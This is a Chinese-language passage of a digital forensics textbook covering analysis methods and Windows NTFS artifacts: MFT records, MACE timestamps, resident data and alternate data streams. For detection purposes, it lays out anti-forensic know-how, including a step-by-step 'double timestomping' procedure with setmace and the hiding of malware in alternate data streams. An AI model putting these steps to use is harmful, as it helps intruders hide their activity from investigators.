如果你在文本编辑器中打开文件，你会看到和这里显示的内容一样。由于数据格式的呈现方式，一个简单的数据格式搜索可能会错过一些字符串。在这个例子中，卡号"4444555566667777"在文件中出现。然而，信用卡号被分为两部分并显示在不同的行上，中间有其他文本。由于典型的字符串搜索工具不能补偿数据呈现方式，它无法找到卡号。需要有人来检查数据、了解信息的格式，并创建一个适当的搜索方法。在这种情况下，我们创建了一个脚本，读入源数据并更改格式。脚本丢弃了十六进制列并重新格式化ASCII列，以便在每个交易分隔符（破折号）之间的字符合并成一行。在考虑数据可能的外观时，不要忘记本地化。世界不同地区使用不同的约定来表示日期、时间、数字、字符和其他信息。即使在同一地区也可能存在差异。例如，如果你查看自己计算机上的日志文件，你可能会发现至少有六种不同格式的日期。

### **分析你的数据**

既然你了解了自己的目标和数据来源，那么就该确定一个方法。回顾你的调查问题，并编制一个初步的数据源列表，以回答这些问题。有时来自意外来源的数据可以提供间接证据，所以一定要考虑本章前面列出的四个“可用的是什么？”类别中的每一个。让我们看一个样例场景。

- 注意：
  
    所有这些工作——列出目标、创建数据源列表和记录你打算采取的方法——似乎是很多开销。当你自己处理几个系统时，可能是这样。但我们发现，在处理多个团队的大型项目时，这些工作非常有用，有时也是必要的。记录和制定清单有助于你保持调查的组织性，使你能够同时处理多条调查线索，并为与利益相关者的定期会议提供有用的度量标准。
    

### **概述一个方法**

也许你的调查问题是确定是否发生了数据盗窃。这本身就很广泛。有时攻击者会公开或私下声称他们所做的事情。那些信息可能提供很好的线索，但要记住，它们可能部分或完全虚假。如果没有更具体的信息，你可以通过寻找以下两种类型的证据开始你的调查：

- 网络异常
- 数据盗窃的常见主机级工件

下一步是考虑哪些数据源可能包含这种类型的证据。为了寻找网络异常，你可以先查看网络流数据以查看出口点是否有任何异常。也许在过去的一个月内，有一天传输到互联网的数据量（出站）异常高。或者也许某些协议或端口上的流量异常。你可以调查原因，并看看这会带你去哪里。你还可以检查代理日志、DNS日志、防火墙日志或其他网络仪器的异常，并调查任何看起来可疑的地方。例如，你可能观察到大量失败的登录尝试。

同时，你可以搜索你环境中的系统，寻找数据盗窃的工件。了解攻击者的方法将非常有帮助，但也有一些通用的工件可以寻找。以下是一些例子：

- 异常用户活动
- 在预期时间之外的登录活动
- 奇怪的连接持续时间
- 意外的连接来源（例如从工作站到服务器的远程会话）
- 非正常高的CPU或磁盘利用率（在压缩数据时常见）
- 与常用压缩工具使用相关的文件工件
- 最近安装或修改的服务，或存在其他持久性机制

如果您有关于攻击者在您的环境中操作的信息，请确保包括这些内容。

另一个常见的调查问题是，系统上是否存在恶意软件？您不太可能审查硬盘驱动器上的每个字节或可能的存储位置。 您无法证明系统上没有恶意软件；因此，您将需要创建一系列步骤，以提供合理的置信度，证明系统不包含恶意软件。 对于这种情况，可能会有一些步骤列表：

- 跟随初始线索。例如，如果日期是相关的，请查看该天的系统活动。如果您知道涉及特定文件名，请搜索它们。
- 查看自动启动的程序。
- 验证系统二进制文件的完整性。
- 制作其他已知感染标志的列表并查找它们。
- 对系统进行病毒扫描。

您将执行每个步骤，记录事实结果，并将其用作支持恶意软件存在的意见。请记住，文件不必恶意即可用于恶意目的。请记住，在某些情况下，合法工具和系统程序可能引起怀疑。例如，在Windows / System32目录以外的目录中找到cmd.exe的副本应引起您的注意。

接下来，您将需要描述许多具体任务并决定如何处理。在您可以开始之前，您可能需要进一步定义任务是什么。例如，如果任务是搜索异常的用户登录时间，该如何完成？您可能已经有自动化该过程的能力，或者您可能需要开发技术或手动执行步骤。此外，对于每个任务，都有考虑因素，例如数据量，处理所需的时间，可用于处理的人员以及数据源有多大可能帮助您回答您的问题。让我们更详细地看一下您可能采取哪些类别的步骤来执行分析。

### **选择方法**

许多不同类型的操作系统，磁盘映像，日志文件和其他数据通常使用几种分析方法。当您知道要查找什么时，有些方法很有用，而当您不知道要查找什么时，则有些方法很有用。尽管实现细节可能会更改，但这些方法不直接与任何特定技术相关：

- 使用外部资源
- 手动检查
- 使用专门工具
- 通过排序和过滤进行数据最小化
- 统计分析
- 关键字搜索
- 文件和记录雕刻

例如，尽管NTFS工件（大多数）是特定于该文件系统的，但识别和使用文件系统工件来进一步调查的一般概念并非如此。本书的各章围绕这一概念构建。这是一个重要的范式需要考虑。如果您计划检查流行的Web浏览器的工件，则浏览器技术的基础将导致至少与操作系统无关的一些工件。这些工件可能存在于不同的位置或具有不同的名称，但通常存在相同的信息。优秀的取证工具、技术和文档将考虑到这一点，并允许您轻松地在多个环境中应用相同的过程。让我们详细讨论一下这些分析方法。

使用外部资源或使用他人的工作可能听起来有些像作弊。然而，除非您有时间将情况视为学习经验，否则我们认为使用其他人的工作是完全可以接受的。如果海量数据妨碍您迅速解决犯罪问题，并且时间非常重要，您应该使用任何合理和可接受的方法来解决问题。在这种情况下，我们指的是诸如已知文件数据库、搜索引擎、知识库、在线论坛、自动化工具、同事和同行等资源。如果您正在查看文件并且不确定它是什么，请计算其MD5哈希并在已知文件数据库（如全国软件参考库（NSRL）、Bit9或流行搜索引擎）中进行查找。如果您遇到一个域名并想知道它是否与恶意软件相关，请尝试搜索安全供应商的网站。最后，不要害怕寻求帮助。做出假设或阻碍调查进展会将您的组织置于危险之中。

您可能考虑的另一种方法是手动检查数据。有时，您需要审核的数据量很小。在这种情况下，手动检查数据的所有内容可能是有意义的。即使在2012年，我们也曾参与需要分析几张软盘的调查。使用这种数据集，除了全面审查所有数据之外，其他任何事情都是不可接受的。

这种情况并不经常发生，但您应该考虑至少两个原因。首先，您可能会浪费更多时间“试图找到更好的方法”。其次，它可能有助于增加您的结果信心。当存在适合自动化的情况时，我们始终使用数据的手动检查来验证其他方法。例如，考虑一个旨在执行比较以进行版权侵权案件的流程。在许多情况下，对数据集中的信息进行分类（或“分箱”）非常适合自动化。在开发过程中，我们手动审查数据的子集以进行验证。在处理更大的数据集时，我们会取样并重复手动审查。在使用手动检查方法之前，您应该仔细考虑情况，因为它很容易失控并变得非常耗时。在大多数情况下，我们使用一个或多个其他方法的组合，例如使用专业工具、分类和过滤或关键字搜索。我们将在以下段落中描述其中的几种方法。

企业、从业者和计算机应急响应和取证领域的研究人员创建了大量专门的工具，以帮助我们完成工作。它们包括执行数据可视化、浏览器工件分析、恶意软件识别和文件系统元数据报告等任务的工具。重要的是，您应该在工具箱中拥有全面的工具集，以便有效地处理不同的情况。有时，通用工具（例如识别恶意软件的工具）可以帮助您在没有其他线索的情况下开始工作。在接下来的章节中，我们将介绍一些您应该考虑的工具和技术。当有效使用工具时，可以节省大量时间。但是，请记住，使用工具的一个重要方面是执行一些验证或测试，以帮助确保它们实际上执行它们所说的内容。使用未经测试或在我们领域不常见的工具可能会让您陷入麻烦。

我们接下来要介绍的是通过分类和过滤来实现数据最小化。在审查完整的文件列表等元数据时，我们发现大部分数据都没有用处。系统可能拥有数十万个文件，手动审查每个条目的可能性非常小。在大多数情况下，只有小部分元数据实际上与调查相关，如果元数据很大，则筛选出重要内容可能很困难。在这种情况下，能够排序和过滤以便您可以关注特定日期、目录、文件名或其他属性非常有用。当然，排序和过滤不仅适用于审查元数据。大多数结构化数据（意味着具有一些可解析记录格式的数据）都非常适合进行排序和过滤。但是，根据您正在查看的数据量，排序和过滤可能需要耗费时间并显得笨拙。最好在具有一般线索或知道对于帮助您找到所需内容有效的数据某些属性时进行排序和过滤。如果在特定情况下排序和过滤没有太大帮助，您可能需要探索下一个类别，即统计分析。

统计分析通常用于您不知道要查找什么或如何查找的情况。统计分析通常有助于发现模式或异常，这对于人类来说很难或不可能发现。例如，如果您需要审查大量Web服务器日志以查找“恶意活动”，则使用日志分析工具可能很有用。这些工具的常见功能包括对字段进行自动解析、地理位置查找、索引以及根据不同的方式切片数据生成统计信息和摘要。处理完成后，您可以基于针对服务器发出的请求的统计数据发现模式。例如，下图显示了由日志分析工具Sawmill处理的Apache日志的仪表板显示：


随着您深入研究统计数据，也许您会发现某个月的某一天有大量的“POST”请求。您可以详细调查这些特定请求，以确定它们是否是恶意的。也许在另一天，传输的总数据量高于平均水平。如果您查看了传输的内容，则可能会发现与调查相关的内容。在审查分析结果时，请注意不要让它吞噬您。许多“异常”要么是误报，要么是罕见但合法的事件，要么可能真的是恶意的，但不是您要找的坏人。

“字符串”或“关键字”搜索是数字取证专家自计算机取证开始以来一直使用的一种基本分析方法。其思想是创建一个关键字（字符串）列表，用于搜索证据（文件），以揭示可以帮助您回答调查问题的数据。每当您有兴趣查找与调查相关的关键字时，此方法是最明显的方法之一。但是，有许多微妙之处。正如本章前面所讨论的那样，某些条件，例如编码或格式，可能使字符串搜索无用。分析师必须了解他们正在搜索的数据中所代表的字符串的表示形式。

基于关键字搜索概念，磁盘取证的下一个进化步骤之一是搜索未分配空间和松弛空间。能够搜索未分配空间和松弛空间打开了新的证据来源。未分配空间包括已删除的文件，这通常是非常重要的证据来源。*文件松弛*是位于文件逻辑结尾和分配单元结尾之间的数据。文件松弛技术上是已分配空间（另一个文件无法使用该区域）; 但是，松弛空间通常包含先前文件的一部分或某些随机内存内容，或两者兼而有之的数据。在大多数情况下，用户无法控制放置在松弛空间中的数据。这可以将用户活动的证据传播到整个驱动器，并覆盖很长一段时间。您用于查找证据的工具和程序应包括未分配空间和松弛空间。

我们涵盖的最后一类称为“文件刻录”。此技术结合了几种其他方法的方面。其思想是搜索与文件头或文件的前几个字节相对应的唯一字节序列。大多数常见的文件格式都具有标准化的头，标记文件的开头，有时还有标记文件结尾的页脚。下面显示了JPEG图形文件的示例标头：


在这种情况下，标头的最常见部分是前10个字节。此过程的目标是识别源证据中存在的特定文件类型的所有实例，并将其提取供分析。大多数商业取证工具都可以执行此类型的分析。还有一些开源工具，例如Foremost。

- **GO GET IT ON THE WEB
  
    Foremost** [foremost.sourceforge.net](http://foremost.sourceforge.net/)
    

此方法不受文件扩展名，文件名，文件是否处于活动状态，甚至是否为文件的影响。这种技术是识别和恢复特定文件类型的非常强大的方法。但是，有时您可能不感兴趣定位整个文件。如果文件格式由可唯一识别的离散记录组成，则可以尝试定位和提取单个记录。该技术尝试根据记录头和对记录格式的一些了解来提取记录。如果文件部分被覆盖，被分段或者您正在分析内存镜像或交换空间，则搜索记录而不是整个文件更可能返回有用信息。

### **评估结果**

分析过程中评估您的结果并根据需要调整您的方法是分析过程的重要部分。这有两个部分：

- 您应定期评估分析过程中的结果。
- 完成该过程后，您应评估结果对回答调查问题的质量。

不要等到分析过程结束后才检查结果。原因是很多事情都可能出错。例如，听起来独特的关键词可能会非常频繁地出现，导致假阳性太多，输出无用。或者你试图切割ZIP文件，但工具检测到数百万个ZIP文件。或者可能相反-你可能在寻找一个你期望看到适度点击量的关键词，但在运行了六个小时后仍然没有点击量。像这样的条件监视，有时被称为“检查卫生状况”，是你作为分析师工作的关键部分。根本原因可能是设置过程参数的简单错误-可能是拼写错误。有时，问题是方法。最好尽早在过程中发现这两个问题，以便你可以修复问题。我们通常会抽查一些最初的结果，看看我们是否得到了预期的结果。

如果在整个分析过程中顺利进行，你将得到一些结果。一旦开始审查，请确保你的相关调查问题在脑海中清晰。在这个背景下检查结果，并建立证据支持立场。有时你可能会得到不确定的结果，甚至没有结果（例如，关键词搜索返回没有点击量）。也许你可以改善关键词，但这并不总是可能的。还要考虑到未命中的结果并不意味着该关键词从未存在过-它只是现在不存在。如果你正在查看的结果没有帮助，你可能需要考虑不同的方法或不同的证据来源。

### **那么呢?**

熟悉数据、工具和方法需要花费时间，这是成为一名优秀调查员的关键部分。我们经常看到分析师不理解他们正在查看的数据，不理解（或测试）他们正在使用的工具，或不知道这种方法是否会为他们提供有效的结果。我们建议你对你使用的任何工具或过程的结果保持健康的怀疑。始终问自己是否采取了正确的方法-因为如果你不这样做，你的对手肯定会这样做。

### **问题**

1. 根据本章提供的信息，你认为分析过程中最具有挑战性的部分是什么？为什么？
2. 给定以下情景，请解释你会如何继续。调查利益相关者告诉你，证明在分析期间系统上没有特定MD5哈希文件是最关键的目标之一。你有系统的最新取证磁盘映像。
3. 列出四种常见的文本编码类型。如果你的源数据使用它们编码，你将如何执行有效的关键词搜索？
4. 另一个办公室的经理告诉你，预计在第二天通过快递运送磁盘映像。你的任务是恢复已删除的文件。在图像到达之前，你会问哪些问题？为什么？


## 第12章 调查Windows系统

本章的目标是帮助你了解Windows系统上的基本证据来源，以及你如何将它们应用于解决在事件响应调查中经常出现的常见问题。坦白地说，调查Windows可能是一个令人畏惧的挑战。操作系统本身就是一个复杂的怪物-尤其是当它是Active Directory域的一部分时，正如在企业环境中通常的情况一样。在系统正常日常使用期间生成的文件、注册表键、日志条目和其他工件的数量可以对新的分析师来说是压倒性的。

幸运的是，随着数字取证和事件响应领域在过去十年中的成熟，可用于调查Windows系统的工具也越来越多。净结果是，收集和解析我们将在本章中讨论的证据来源比以往任何时候都更容易。然而，我们经常发现，经验不足的分析师可能会陷入依赖工具对证据的解释而不了解其真正的起源或行为的陷阱中。此外，工具可能存在漏洞，并以误导或不完整的方式传递数据。这可能会严重限制你对入侵者在系统上的行动所做出的正确结论的能力-或者更糟糕的是，导致你完全错过或误传结果。没有工具可以完全替代对Windows在“引擎盖下”的行为的全面理解。我们希望本章可以作为你分析的基础，以及进一步研究我们范围之外更复杂的主题的起点。

本章分为各个小节，每个小节都专注于特定的证据来源。我们并不试图涵盖操作系统的每个方面，而是优先考虑对事件响应调查最有益的领域。这些包括以下内容：

- NTFS 和文件系统分析
- Windows 预读
- 事件日志
- 定时任务
- 注册表
- 互动会话的其他人工制品
- 内存取证
- 替代持久性机制

在每个部分中，我们将提供关于证据“工作”的信息（即，它在支持操作系统功能方面的作用），您需要在取证过程中收集什么以及如何分析或解释证据（包括建议的工具）。一路上，我们将把各种证据来源链接到针对事件响应调查常见的情境，并强调攻击者行为对它们的影响。在本章末尾，我们将包括一份回顾，总结您已经了解的所有 Windows 取证制品。

- 注意：
  
    截至本篇写作时，Windows 8 尚未在大多数公司环境中得到广泛部署。实际上，我们与之合作的许多组织最近才将用户端点升级到最新版本的 Windows 7。因此，本章不包括针对 Windows 8 特定变化的制品分析。与所有重要的 Windows 升级一样，许多取证制品保持不变，一些已被删除，一些已被添加。出版后，我们将使用本书附带的网站更新有关 Windows 8 的其他信息，敬请关注。
    

### **NTFS 和文件系统分析**

Windows 文件系统是本章中讨论的许多证据来源的基础。 目前，NT 文件系统（NTFS）是所有最新版本的 Windows 中使用最广泛的文件系统。 NTFS 是由 Microsoft 在 1990 年代初开发的专有文件系统--它在 Windows 2000 和 XP 时代广泛使用，最终取代了与 Microsoft Disk Operating System (MS-DOS) 通用的传统 FAT 文件系统。由于 NTFS 现在是我们预计您将在 Windows 系统上遇到的最常见的文件系统，特别是操作系统所在的磁盘卷，因此我们将仅集中讨论 NTFS。

我们将从 NTFS 中最重要的制品开始介绍：主文件表和相关元数据、INDX 属性和更改日志。 我们还将讨论几个与 NTFS 不仅相关的文件系统主题，但对于任何调查人员来说都是必备的知识，包括卷影副本和文件系统重定向。

 **主文件表**

与任何文件系统一样，NTFS 定义了如何分配和利用磁盘空间、如何创建和删除文件，以及如何存储和更新与这些文件相关的元数据。如果您有任何“死盘”取证的经验，您可能已经执行了例行任务，例如查看文件时间戳并识别可以恢复的已删除文件-这些都是由 NTFS 制品可能的，可以像在 Windows 系统上的任何其他证据来源一样获取和分析。

主文件表（MFT）是 NTFS 中元数据的主要来源。它包含或间接引用文件的所有内容：其时间戳、字节大小、属性（例如权限）、父目录和内容。换句话说，如果您拥有来自 Windows 系统的 MFT 的副本，则拥有所有存在于该卷上的文件的权威目录，以及可能最近被删除的一些文件（稍后将详细介绍）。

#### **证据**

每个 NTFS 卷都将包含自己的 MFT，存储在卷根目录中的一个名为 $MFT 的文件中。如果您正在分析具有多个分区或驱动器的系统，请确保从每个卷获取 MFT-您永远不知道可能需要什么。$MFT 等 NTFS 元数据文件无法通过 Windows Explorer 或其他标准应用程序编程接口（API）文件访问方法进行访问。您将需要原始磁盘访问-例如由任何磁盘取证软件及其驱动程序提供的访问-与 $MFT 文件的内容进行交互或获取。

在具有 512 字节扇区的标准硬盘上，MFT 结构化为一系列 1,024 字节的记录，也称为“条目”，每个卷上的每个文件和目录一个。前 16 个 MFT 条目保留用于基本 NTFS 制品，包括 $MFT 本身、$LogFile 和我们稍后在本节中介绍的其他特殊文件。每个条目包含元数据和属性，既描述文件或目录，又指示其内容位于物理磁盘上的位置。 MFT 条目的基本要素包括以下内容：

- **记录类型** 指定给定条目表示文件还是目录。
- **记录编号** 用于标识给定MFT条目的整数。随着添加新条目，记录编号会逐渐增长。
- **父记录编号** 父目录的记录编号。每个MFT条目仅跟踪其直接父级的记录编号，而不是其在磁盘上的完整路径。您可以通过跟随记录编号序列来重新构造文件或目录的完整路径，直到到达卷的根条目。
- **活动/非活动标记** 已删除文件或目录的MFT条目被标记为“Inactive”。NTFS将自动回收并替换不活动条目以防止MFT无限增长。
- **属性** 每个MFT条目包含许多“属性”，这些属性包含有关文件的元数据，从时间戳到文件内容在磁盘上的物理位置的所有内容。我们将在本节中详细介绍的三个最重要的属性是$STANDARD_INFORMATION、$FILENAME和$DATA。

图12-1提供了MFT记录布局和关键元素的高级描述，包括FILE_RECORD_SEGMENT_HEADER（显示为“记录头”）、$STANDARD_INFORMATION和$FILE_NAME属性以及$DATA属性。

请注意，在具有4KB扇区的高级格式（AF）驱动器上，每个MFT记录将为4,096字节。其他信息可在以下博客文章中获得：

**上网获取**

[traceevidence.blogspot.com/2013/03/a-quick-look-at-mft-resident-data-on.html](http://traceevidence.blogspot.com/2013/03/a-quick-look-at-mft-resident-data-on.html)[blogs.msdn.com/b/ntdebugging/archive/2011/06/28/ntfs-and-4k-disks.aspx](http://blogs.msdn.com/b/ntdebugging/archive/2011/06/28/ntfs-and-4k-disks.aspx)


!https://s3-us-west-2.amazonaws.com/secure.notion-static.com/66f87144-bf23-4227-acf6-4f48482680bf/Untitled.png

#### **MFT分析**

正如我们之前提到的，MFT是我们进行文件系统取证分析时使用的最重要的信息来源之一。在本节中，我们将重点介绍如何分析MFT以恢复有关已删除文件和目录的信息，并获取时间戳，这些是您在调查期间可能反复执行的常见任务。我们还将花一些时间讨论两个可能影响您恢复与文件相关的“隐藏”数据的能力的主题：常驻记录和备用数据流。

##### **识别已删除的文件** 
几乎任何取证从业人员都知道，“删除”文件或目录并不意味着它被从磁盘上抹掉且不可恢复。但是对于NTFS（忽略回收站等因素），为什么会这样呢？我们已经提到，每个MFT条目都包含一个标志，可以指示给定记录是“活动”还是“非活动”。当您删除文件或目录时，NTFS会将相应的MFT条目中的标志设置为“非活动”——这意味着MFT条目现在可供重用。毕竟，如果已删除的文件的MFT条目继续存在，NTFS将不会非常高效——MFT将不断增大。但是请注意，文件本身或MFT条目的其他内容都没有改变。它的实际内容仍然保留在磁盘上，并且仍然由非活动的MFT条目（特别是$DATA属性，我们将在稍后详细讨论）“指向”。只要这些簇没有被其他数据覆盖，它们仍然可以恢复。同样，只要未重新使用已删除文件的非活动MFT条目，它的元数据就可以恢复。

非活动MFT条目会保留多长时间？这取决于情况。NTFS始终会尝试在扩展MFT的大小之前替换现有的可用条目。因此，我们经常发现非活动条目仅在主操作系统卷上持续几秒钟或几分钟。在次要驱动器上，由于活动频率较低，可能会发现较少的“翻转”，因此非活动条目会持续更长时间。

##### **分析时间戳** 
文件时间戳是存储在MFT中最重要的元数据之一。你经常会听到取证分析人员提到文件的“MACE”时间戳——这是指NTFS时间戳的四种类型：修改时间（M），访问时间（A），创建时间（C）和入口修改时间（E）。稍后我们将详细介绍每个时间戳的含义。

给定文件的MFT条目将至少有两个包含MACE时间戳属性的属性集合。其中一个集合包含在“标准信息”属性中（也称为$SIA、STANDARD_INFORMATION或$SI）。这个属性还包含操作系统使用的各种标识符代码、标志和序列号。另一个MACE时间戳集合包含在文件名属性中（也称为FNA、FILE_NAME或$FN）。$FN属性存储文件名本身、文件大小和其父目录记录号。

如果你曾经在Windows资源管理器或流行的取证工具（如Encase）的默认用户界面中查看文件属性，你就会看到标准信息时间戳。它们可以通过Windows API访问，因此在整个操作系统中暴露给用户模式应用程序。在图12-2中，请注意cmd.exe的属性说明了它的$SI创建、访问和修改时间。Windows资源管理器不显示入口修改时间戳，但几乎所有的磁盘取证工具，包括SleuthKit、EnCase和FTK，都会显示。


标准信息 ($SI) MACE 时间戳的定义相当直观（Entry Modified 可能除外）：

- **Modified** 最后更改文件内容的时间
- **Accessed** 最后读取文件内容的时间
- **Created** 文件创建时间
- **Entry Modified** 更改文件关联的 MFT 条目而非文件内容的时间戳
- 注意：
  
    为了提高性能，Windows Vista、7、Server 2008 和更新版本的 Windows 不再默认更新 Accessed 时间戳。此行为受 HKLM\CurrentControlSet\ Control\FileSystem\NtfsDisableLastAccessUpdate 注册表键和值的控制。即使未设置此值，NTFS 也可能将更新 Accessed 时间戳的延迟增加至一小时。
    

那么 $FN MACE 时间戳与 $SI 有何不同？它们是针对文件名本身的 MFT 条目。例如，Filename Created 指的是某个文件的 MFT 条目创建日期和时间。Filename Modified 指的是 MFT 中文件名属性最后更改的日期和时间等等。

如果你和本文作者一样，还记得使用 MS-DOS 的时代，那么你可能还记得文件名一度被限制在不超过八个字符的长度（加上三个字符的扩展名）。NTFS 实际上维护了多组文件名属性，包括完整、大小写敏感的长文件名和 MS-DOS 8.3 文件名。这意味着你可以为 MS-DOS 文件名恢复另外四个 MACE 时间戳，尽管这些时间戳通常与“长”文件名时间戳属性相同。

为什么要关心所有这些时间戳？难道一个 MACE 属性集不够吗？回想一下，我们提到 $SI 时间戳可通过 Windows API 对用户应用程序可用。这意味着程序既可以读取也可以更改任何这些时间戳的值，以意図不准确的值为目的的过程称为“时间篡改”。诸如 setmace 等实用程序可以轻松地将任何文件的 $SI 时间戳更改为任意值或与另一个文件的时间戳匹配。恶意软件下发者和安装程序经常自动化这个过程作为反取证技术，经常将 %SYSTEMROOT% 中合法系统文件的时间戳克隆到自己的文件中，以掩盖和阻碍时间轴分析。

- **上网找它**
  
    [code.google.com/p/mft2csv/wiki/SetMACE](http://code.google.com/p/mft2csv/wiki/SetMACE)
    

幸运的是，操作 $FN MACE 时间戳要复杂一些。应用程序无法在没有访问 MFT 的情况下读取这些值，这需要原始磁盘访问（通常通过设备驱动程序）。同样，没有支持的方法直接设置或更改 $FN 时间戳，但有越来越多的间接机制可以实现这一点。例如，您可以使用 setmace 和其他实用程序通过执行以下步骤将 $SI 和 $FN 同时设置为任意值：

1. 修改 Standard Information 时间戳为所需值。
2. 将文件移动到同一卷中的新目录中。
3. 修改文件在其新位置的 Standard Information 时间戳。
4. 将文件移回其原始路径。
5. 再次修改 Standard Information 时间戳。

此操作将导致匹配的修改后的 $SI 和 $FN 属性。这个技巧经常被称为“双时间篡改”。

setmace 实用程序还有另一种操作 $FN 属性的机制：写入物理磁盘。这需要 Windows Vista 和更高版本的内核模式驱动程序，与直接篡改 NTFS 元数据的任何内容一样，存在损坏 MFT 条目的风险。实际上，大多数攻击者依靠先前引用的双重时间篡改技巧，因为它简单、可靠且不需要原始磁盘访问。

虽然了解攻击者可以如何篡改 NTFS 元数据的所有方式可能令人沮丧，但不用担心！有几种方法可以打败最常见的反取证技术。我们建议在对 NTFS 元数据进行时间轴分析时将 $FN 时间戳纳入考虑范围。如果攻击者仅篡改文件的 $SI 时间戳，则其 $FN 属性可能反映其真实的 MACE 时间，并因此“适合”于感兴趣的时间范围。当然，每个文件（$SI 和 $FN）都要审核八个时间戳可能会导致时间轴过于混乱，因此你可能会发现从 Filename Created 和 Standard Information Created 开始会更有优势。根据需要，您可以扩展您的分析“窗口”以包括其余的 MACE 时间戳。您还可以依赖本章中我们将讨论的其他时间证据来源，例如注册表、prefetch 文件和事件日志条目，来帮助您确定感兴趣的时间范围，从而帮助您集中分析工作。

图 12-3 描述了我们调查的一个真实案例中的时间篡改示例。攻击者的后门安装程序修改了恶意 DLL (rasmon.dll) 的 $SI 时间戳，以匹配 Windows 标准安装中包含的合法系统文件的时间戳。然而，$FN 时间戳仍然准确（通过分析系统上其他协同时间证据的结果证实）。


- 注意：
  
    如果一个文件的 $FN 时间戳与其 $SI 时间戳不匹配，它本身是否就具有可疑性？不幸的是，这不一定是这样的——有很多情况下，这种情况是可以合理发生的。例如，从物理媒体（如 CD）安装的文件，从存档中提取的文件，或从网络共享复制的文件可能会保留其 $SI 时间戳。在这种情况下，$FN-created 时间戳通常代表它们在给定系统上的真实创建日期和时间。
    
    要跟踪 Windows 在各种操作期间更新这些属性时遵循的“规则”确实是具有挑战性的。SANS 维护了一个有用的数字取证备忘单，概述了常见文件系统任务如何影响每个 $SI 和 $FN 时间戳。此备忘单可在 [blogs.sans.org/computer-forensics/files/2012/06/SANS-Digital-Forensics-and-](http://blogs.sans.org/computer-forensics/files/2012/06/SANS-Digital-Forensics-and-) Incident-Response-Poster-2012.pdf. 上找到。
    

##### **常驻数据** 
我们花了很多时间讨论文件的 MFT 条目中的 $SI 和 $FN 属性，但最重要的属性之一是命名为 $DATA 的属性。该属性通常提供一个清单，列出了文件内容所在的磁盘上的簇。包含给定文件所有数据的簇可能不都是连续的，或者通常被称为“连续的”。当给定文件的所有簇都不连续时，文件被称为“分段”。当一个文件被分段时，$DATA 属性将列出“数据运行”，这些运行组合在一起包含文件的数据。你可能想知道为什么 NTFS 会使用这种方法来存储非常小的文件，因为这样做是低效的。事实上，NTFS 以不同的方式存储非常小的文件，这被称为“常驻数据”。

回想一下，一个典型的 MFT 条目具有 1,024 个字节的固定长度。对于大多数文件来说，这是一个不错的头程——即使考虑到它跟踪的众多属性。因此出于效率的考虑，NTFS 实际上将大约 700-800 字节内的完整文件内容存储在 $DATA 属性本身中。如果这样做，MFT 条目中会设置一个名为常驻标记的特殊标志，以指示此条件。换句话说，通过获取 $MFT 并找到符合此大小约束的给定文件的条目，您可以直接从 MFT 文件本身恢复其内容。这对于已被删除但仍保留非活动 MFT 条目的文件仍然有效。

如果一个文件太大，$DATA 属性将只包含其簇运行——不存在“部分”常驻文件。但是，MFT 条目可能包含包括以前常驻数据的松弛空间。如果一个文件最初足够小，以至于可以常驻，并且随后增长以超出可用空间，则 MFT 条目将被标记为非常驻，$DATA 属性将更新以指向文件在磁盘上的簇。但是，属性中的剩余空间仍可能包含旧版本文件的以前常驻数据。分析人员经常在对取证磁盘映像进行字符串搜索期间遇到常驻数据的工件。因此，如果您在 $MFT 中的文件内容中获得搜索命中，则现在您知道可能发生了什么。

##### **备用数据流** 
在本节的早些时候，我们解释了每个 MFT 条目都包含一个 $DATA 属性，该属性包含常驻文件的内容或常驻文件的簇运行。NTFS 还允许您向文件的 MFT 条目添加其他命名的 $DATA 属性，也称为备用数据流 (ADS)。每个这些属性都可以指向唯一的簇运行集，并因此作为“附加”到给定主文件的文件。MFT 条目将不包含备用数据流的单独的标准信息或文件名属性，这意味着备用数据流将不具有其自己的独特的 MACE 时间戳集。

引用备用数据流的标准命名约定是 *filename*:*streamname*，大多数取证实用程序在显示文件清单中的备用数据流时将遵循此约定。为了更好地理解如何创建这样的流，参见图 12-4 中显示的命令行序列。在这个例子中，我们创建了一个名为 out.txt 的文件，其中包含字符串“Hello World”，然后创建了一个名为 out.txt:secret.txt 的备用数据流，其中包含字符串“I'm an ADS”。我们使用 dir 命令列出了该文件的内容，分别使用和不使用 /r 开关。最后，我们使用“more”命令显示 out.txt 和其备用数据流的内容。

请注意，“out.txt”文件的内容不受备用数据流的影响。大小保持不变，如果我们计算 MD5 校验和，它也将在创建 ADS 之前和之后保持相同。流实际上表现为与其“主机”文件不同的独立文件。还请注意，标准 dir 命令未列出 out.txt: secret.txt:$DATA——我们必须使用开关“dir /r”来显示流。我们还使用“more”命令（而不是“type”）来显示 ADS 的内容（“type”命令没有从 ADS 读取的功能）。


希望你已经开始考虑坏人可能滥用备用数据流的方式。在早期版本的Windows中，攻击者通常会将恶意可执行文件隐藏在合法文件或文件夹的流中（例如，在构建Poison Ivy后门实例时，这实际上是可用的默认选项之一）。

更糟糕的是，最初没有内置机制通过命令行或资源管理器列出备用数据流。SysInternals“streams”和Frank Heyne的LADS实用程序是提供列出备用数据流的功能的两个免费工具，直到这个功能被包含在Windows的后续版本中。

从Windows Vista开始，Microsoft实施了功能和控件，以限制备用数据流的恶意使用。不再可能直接从备用数据流运行可执行文件，而/r开关可以列出所有可用的备用数据流。然而，请注意，仍然可以在备用数据流中存储数据：这可能包括从RAR文件到批处理脚本或由单独的可执行文件加载的其他解释代码。

如果您正在使用流行的商业驱动器取证工具之一，例如Guidance Encase、X-Ways Forensic或AccessData FTK，备用数据流将被列在它们自己的行中，就像它们是单独的文件一样。例如，Encase 6和7使用显示约定hostfile.ext∙ADS而不是hostfile.ext:ADS。但是，许多免费工具（例如FTK Imager）根本不显示ADS。在检查磁盘之前，请确保确定您选择的工具包是否具有此功能。

- 注意：
  
    Windows继续为多个合法目的使用备用数据流。例如，Internet Explorer和其他Web浏览器会在下载文件时附加名为Zone. Identifier的流。Explorer会引用此流以确定文件的来源，并在用户尝试执行该文件时执行配置的安全控制。MSDN文章“已知备用流名称”提供有关其他有效ADS的信息：[msdn.microsoft.com/en-us/library/dn365326.aspx](http://msdn.microsoft.com/en-us/library/dn365326.aspx)。
    

##### **MFT分析工具**
大多数商业取证工具包，包括EnCase和FTK，都能够提取和解析$MFT和其他NTFS结构的内容。幸运的是，有大量免费和开源软件可用于帮助您分析这些证据，我们提供了一些我们最喜欢的工具：

- **The Sleuth Kit** [www.sleuthkit.org/sleuthkit](http://www.sleuthkit.org/sleuthkit)
用于分析磁盘映像和文件系统元数据的综合开源工具包。
- **mft2csv** [code.google.com/p/mft2csv](http://code.google.com/p/mft2csv)
用于将MFT转换为CSV文件并将单个MFT条目转储到指定的文件/路径的一组工具。
